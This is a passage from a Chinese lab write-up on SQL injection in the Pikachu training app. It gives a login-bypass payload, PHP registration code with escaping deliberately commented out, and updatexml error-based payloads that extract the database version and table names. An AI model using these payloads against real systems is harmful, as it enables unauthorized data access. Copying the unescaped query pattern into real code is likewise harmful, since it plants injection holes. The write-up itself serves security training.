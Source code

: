 **漏洞利用**

参照代码，这里使用字符型且没有使用相似查询，然而这个不重要，关键是构造一个闭合

payload: `' or '1' = '1 #`

### "insert/update" 注入

insert 注入，就是前端注册的信息最终会被后台通过 insert 这个操作插入数据库，后台在接受前端的注册数据时没有做防 SQL 注入的处理，导致前端的输入可以直接拼接 SQL 到后端的 insert 相关内容中，导致了 insert 注入。

**服务器端核心代码**
```php
if(isset($_POST['submit'])){
    if($_POST['username']!=null &&$_POST['password']!=null){
//      $getdata=escape($link, $_POST);//转义

        //没转义,导致注入漏洞,操作类型为insert
        $getdata=$_POST;
        $query="insert into member(username,pw,sex,phonenum,email,address) values('{$getdata['username']}',md5('{$getdata['password']}'),'{$getdata['sex']}','{$getdata['phonenum']}','{$getdata['email']}','{$getdata['add']}')";
        $result=execute($link, $query);
        if(mysqli_affected_rows($link)==1){
            $html.="<p>注册成功,请返回<a href='sqli_login.php'>登录</a></p>";
        }else {
            $html.="<p>注册失败,请检查下数据库是否还活着</p>";

        }
    }else{
        $html.="<p>必填项不能为空哦</p>";
    }
}
```

**漏洞利用**

在上面搜索型注入中演示了 select 类报错获取信息,insert 和 update 其实类似

先测 insert 注入，在注册页面输入 `'` ，来查看后端反馈的观察，通过观察报错了解到提交的内容在后台参与了拼接。

![image](../../../assets/img/安全/实验/pikachu/45.png)

版本 `1' or updatexml(1,concat(0x7e,(version())),0) or'')#`

表名 `1' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu'limit 0,1)),0) or'')#`

![image](../../../assets/img/安全/实验/pikachu/46.png)
